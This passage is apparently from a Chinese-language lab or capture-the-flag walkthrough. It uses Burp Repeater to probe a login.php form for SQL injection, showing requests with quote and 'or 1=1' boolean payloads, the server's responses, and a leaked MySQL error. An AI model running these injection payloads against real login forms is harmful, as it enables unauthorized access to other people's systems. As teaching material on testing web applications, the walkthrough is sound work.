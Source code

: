 再次拦截，右键->`Send to Repeater`。进入Repeater标签，Web应用程序将我们重定向回login.php页面。

```
POST /login.php HTTP/1.1

user=a&pass=a

HTTP/1.1 302 Found
Location: login.php
```

尝试在POST参数user进行注入，user似乎易受攻击。

```
POST /login.php HTTP/1.1

user=a'&pass=a

HTTP/1.1 302 Found
Location: login.php

Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/login.php on line 17
```

看看pass是否也是这样。注入pass参数没有让应用程序报错，它表现正常。pass似乎没有SQL注入。

```
POST /login.php HTTP/1.1

user=a&pass=a'

HTTP/1.1 302 Found
Location: login.php
```

更详细地尝试user参数，输出中多了三个HTTP头部字段。

```
POST /login.php HTTP/1.1

user=a' or 1=1; -- -&pass=a

HTTP/1.1 302 Found
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
```

参数使用错误的payload，输出有所不同。

```
POST /login.php HTTP/1.1

user=a' or 1=2; -- -&pass=a

HTTP/1.1 302 Found
Location: login.php
```
